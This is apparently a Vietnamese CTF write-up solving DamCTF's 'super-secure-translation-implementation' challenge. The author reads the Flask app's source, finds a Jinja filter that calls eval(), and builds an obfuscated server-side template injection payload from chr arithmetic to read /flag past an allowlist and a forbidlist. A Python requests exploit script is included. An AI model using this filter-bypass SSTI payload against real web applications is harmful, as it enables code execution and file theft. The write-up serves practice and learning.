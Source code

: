 ![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/4.png)
</br>
tôi rất là vui vì đội solve bài này lượt thứ 6 là đội của tôi, đây là lần đầu trong một cuộc thi ctf mà tôi solve nhanh như vậy
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/5.png)

bài này tác giả có cho `super-secure-translation-implementation.zip` một file zip để tải về nhưng thật ra bên trong chẳng có gì ngoài tệp __Dockerfile__ giúp ta xác định được vị trí của flag
</br> đây là giao diện của website khi ta vào
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/6.png)
source code được hiển thị rõ
```@server.route("/")
@server.route("/<path>")
def index(path=""):
    # Show app.py source code on homepage, even if not requested.
    if path == "":
        path = "app.py"

    # Make this request hackproof, ensuring that only app.py is displayed.
    elif not os.path.exists(path) or "/" in path or ".." in path:
        path = "app.py"

    # User requested app.py, show that.
    with open(path, "r") as f:
        return render_template("index.html", code=f.read())
  ``` 
  Bằng cách chèn __/path__ giúp ta có thể đọc file trong thư mục __/chal__ vì dấu `..` và `/` đã bị filter nên không thể đọc bên ngoài thư mục __/chall__
  ```
from check import detect_remove_hacks
from filters import *
```
để ý đoạn này, tệp app.py có tham chiếu đến 2 file khác là __check.py__ và __filters.py__ vậy ta chỉ cần truy cập đến 
đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/check.py` để đọc tệp __check.py__ 
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/7.png)
và đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/filters.py` để đọc tệp __filters.py__
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/8.png)
</br>tóm tắt là chỉ cần chèn payload vào __/secure_translate?payload=__ để tấn công ssti và chỉ có một số ký tự được cho phép còn lại đều bị chặn
```  
allowlist = [
        "c", "{","}","d","6","l","(","b","o","r",")",'"',"1","4","+","h","u","-","*","e","|","'",
 ]
```
và ở tệp __app.py__ có những dòng lệnh này
```
server = Flask(__name__)

# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```
tóm gọn là ý nghĩa rằng hàm e là __eval__ và hàm ch là __chr__, ta sẽ quan tâm một xíu ở hàm e (đọc file filters.py)
```
def e(x):
    # Security analysts reviewed this and said eval is unsafe (haters).
    # They would not approve this as "hack proof" unless I add some
    # checks to prevent easy exploits.

    print(f"Evaluating: {x}")

    forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]

    for y in forbidlist:
        if y in x:
            return "Eval Failed: Foridlist."

    if x[0:4] == "open" or x[0:4] == "eval":
        return "Not That Easy ;)"

    try:
        return eval(x)
    except Exception as exc:
        return f"Eval Failed: {exc}"
```
4 ký tự đầu không được là __open__ và __exec__ , payload ban đầu của tôi là `{""+open('/flag').read()|e}` để bypass filter tôi đã sửa thành `{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}` độ dài payload 153, giới hạn độ dài của tác giả là 161
flag là dam{p4infu1_all0wl1st_w3ll_don3}

```

import requests
s = requests.session()
payload='''{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}''' 

url = 'https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload='+payload
res = s.get(url).text
print(res)
```
